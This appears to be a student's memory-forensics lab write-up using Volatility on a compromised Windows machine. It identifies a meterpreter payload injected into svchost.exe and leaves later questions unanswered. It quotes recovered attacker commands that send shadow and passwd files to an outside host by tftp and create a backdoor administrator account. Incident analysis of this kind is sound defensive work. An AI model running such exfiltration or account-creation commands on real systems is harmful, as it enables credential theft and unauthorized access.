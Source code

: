 # Questions

## What tool was used to compromise the system?

Using plugins `cmdscan` and `consoles` we found evidence of an attacker trying to create a new user and add it to the local administrators group. The attacker also tried to exfiltrate the `shadow` and `passwd` files using `ftp` and `tftp` commands.

These commands were run by a child of `csrss.exe` (Pid 684), here is an extract of these commands :

```
**************************************************
CommandProcess: csrss.exe Pid: 684
CommandHistory: 0x10986f8 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 9 LastAdded: 8 LastDisplayed: 8
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x5b4
**************************************************
cd C:\
mkdir system32
cd system32
ftp 192.168.174.128
tftp 192.168.1.104 put shadow
tftp 192.168.1.104 put passwd
net user admin * /add 
net localground Administrators admin /add #OOOPS
net localgroup Administrators admin /add
```

Using `pstree` we can see that a `cmd.exe` is running as a child of `svchost.exe` (Pid 1136) which is a child of our `csrss.exe` (Pid 684).

```
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
.. 0x89953020:csrss.exe                               684    620     11    409 2013-08-15 22:55:10 UTC+0000
.. 0x8969f020:winlogon.exe                            708    620     22    522 2013-08-15 22:55:10 UTC+0000
... 0x8998b680:wpabaln.exe                           1428    708      1     58 2013-08-15 22:57:13 UTC+0000
... 0x8994dca8:services.exe                           752    708     16    268 2013-08-15 22:55:10 UTC+0000
.... 0x895213c0:svchost.exe                           132    752      6     88 2013-08-15 22:55:31 UTC+0000
.... 0x8989a980:vmtoolsd.exe                          272    752      8    268 2013-08-15 22:55:32 UTC+0000
.... 0x8994f458:vmacthlp.exe                          924    752      1     25 2013-08-15 22:55:10 UTC+0000
.... 0x899a1a00:svchost.exe                          1184    752      6     70 2013-08-15 22:55:12 UTC+0000
.... 0x89b60998:svchost.exe                          1284    752     14    195 2013-08-15 22:55:12 UTC+0000
.... 0x896a1b10:svchost.exe                           936    752     19    202 2013-08-15 22:55:11 UTC+0000
.... 0x895e9618:svchost.exe                           996    752     10    238 2013-08-15 22:55:11 UTC+0000
.... 0x89679608:alg.exe                              1768    752      6    101 2013-08-15 22:55:40 UTC+0000
.... 0x89a54650:spoolsv.exe                          1644    752     14    145 2013-08-15 22:55:13 UTC+0000
.... 0x89a90da0:svchost.exe                          1136    752     68   4423 2013-08-15 22:55:11 UTC+0000
..... 0x89985c08:wscntfy.exe                         1588   1136      1     28 2013-08-15 22:55:40 UTC+0000
..... 0x8950a020:cmd.exe                              440   1136      1     33 2013-08-15 22:56:01 UTC+0000
..... 0x8992fb08:wmiadap.exe                          364   1136      5    172 2013-08-15 22:59:40 UTC+0000

```

So now the `svchost.exe` (Pid 1136) is suspicious, let's have a look at it.

Looking at the network connections using `sockets` we can see that the `svchost.exe` (Pid 1136) is actively listening on all interfaces on port 4444.

```

Offset(V)       PID   Port  Proto Protocol        Address         Create Time
---------- -------- ------ ------ --------------- --------------- -----------
0x896b87c0     1136    123     17 UDP             192.168.174.148 2013-08-15 22:55:40 UTC+0000
0x896e36d8     1136    123     17 UDP             127.0.0.1       2013-08-15 22:55:40 UTC+0000
0x898ad978     1136   4444      6 TCP             0.0.0.0         2013-08-15 22:56:00 UTC+0000

```

Knowing that `4444` is a common port used by `msf` (metasploit) we can assume that this process is a even more malicious.

From now we can assume that it is most likely a reverse shell, so we can use `connections` to see if there is any active connection...

Here you go...

```
Offset(V)  Local Address             Remote Address            Pid
---------- ------------------------- ------------------------- ---
0x8966bd30 192.168.174.148:4444      192.168.174.1:58719       1136

````

So we can assume that the attacker is using a reverse shell to connect to the machine.

The attacker is most likely using `msf` (metasploit) to get a reverse shell, so we can assume that the attacker is using a `meterpreter` shell.

After quick research about how `meterpreter` works, we found out that "Meterpreter is an advanced, dynamically extensible payload that uses in-memory DLL injection stagers and is extended over the network at runtime." [https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

Let's use `malfind` to explore the potential strange VADS in here.

Hooray ! We found something interesting...

```
Process: svchost.exe Pid: 1136 Address: 0x2df0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 109, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x0000000002df0000  4d 5a e8 00 00 00 00 5b 52 45 55 89 e5 81 c3 89   MZ.....[REU.....
0x0000000002df0010  0e 00 00 ff d3 89 c3 57 68 04 00 00 00 50 ff d0   .......Wh....P..
0x0000000002df0020  68 e0 1d 2a 0a 68 05 00 00 00 50 ff d3 00 00 00   h..*.h....P.....
0x0000000002df0030  00 00 00 00 00 00 00 00 00 00 00 00 f0 00 00 00   ................

```

Based on the criteria seen in class :

* Full commited page -> YES
* RWX page -> YES
* Private memory -> YES
* No mapped file (VadS) -> YES
* MZ header -> YES

So `svchost.exe` (Pid 1136) is no more a suspicious process, it is most likely a malicious one.

We dumped the injected exectuable at `0x2df0000`, we ran `strings` on it and we found out that it is really a `meterpreter` shell :

here's an extract of some strings that "proves" that it is a `meterpreter` shell :

* `ReflectiveLoader` -> as described in [https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) the stager uses ReflectiveLoader to load the DLL into memory.
* ImpersonateLoggedOnUser  -> this is a typical function used by `meterpreter` to impersonate the user.

In short, the tool used by the attacker is `meterpreter` and the process where it has been injected is `svchost.exe` (Pid 1136).

## What was the IP address of the attacker's machine?


## What directory was created to store the files before exfiltration?

## Where was data exfiltrated from?

## How was exfiltration performed?

## How was persistence maintained?